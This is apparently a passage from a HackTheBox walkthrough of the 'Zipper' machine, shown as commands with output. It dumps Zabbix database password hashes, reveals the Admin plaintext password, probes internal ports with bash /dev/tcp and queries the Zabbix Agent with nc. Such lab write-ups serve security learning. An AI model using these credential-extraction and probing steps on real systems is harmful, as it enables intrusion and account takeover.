 Logging into the MySQL database:
```markdown
mysql -u zabbix -D zabbixdb -p
```

Looking for the user database end getting the contents:
```markdown
show databases;
use zabbixd;

show tables;
describe users;

select userid, alias, passwd from users;
```

There are 3 users and the passwords are 32-character hashes which is probably **MD5**:
```markdown
+--------+--------+----------------------------------+
| userid | alias  | passwd                           |
+--------+--------+----------------------------------+
|      1 | Admin  | 65e730e044402ef2e2f386a18ec03c72 |
|      2 | guest  | d41d8cd98f00b204e9800998ecf8427e |
|      3 | zapper | 16a7af0e14037b567d7782c4ef1bdeda |
+--------+--------+----------------------------------+
```

When encoding the password for the database it is the same MD5 hash as this _Admin_ password.
```markdown
echo -n 'f.YMeMd$pTbpY3-449' | md5sum
```

Which means, that the credentials for the Zabbix admin interface is the username _Admin_ and the password _"f.YMeMd$pTbpY3-449"_.

### Exploiting Zabbix to access Zipper

On the admin interface it is possible to see the enabled services for the clients and it looks like out target _zipper_ has the **Zabbix Agent** installed:

![Enabled services](https://kyuu-ji.github.io/htb-write-up/zipper/zipper_web-4.png)

By default this service listens on port 10050 or 10051, so lets test for the ports from the _zabbix_ server:
```markdown
bash -c 'echo 1> /dev/tcp/172.17.0.1/10050 && echo open || echo false'
open

bash -c 'echo 1> /dev/tcp/172.17.0.1/10051 && echo open || echo false'
bash: connect: Connection refused
bash: /dev/tcp/172.17.0.1/10051: Connection refused
false
```

Port 10050 is open and by using the [Zabbix Agent API](https://www.zabbix.com/documentation/3.4/manual/config/items/itemtypes/zabbix_agent) it is possible to send commands to the service:
```markdown
echo "agent.hostname" | nc 172.17.0.1 10050
```
```markdown
Zipper
```
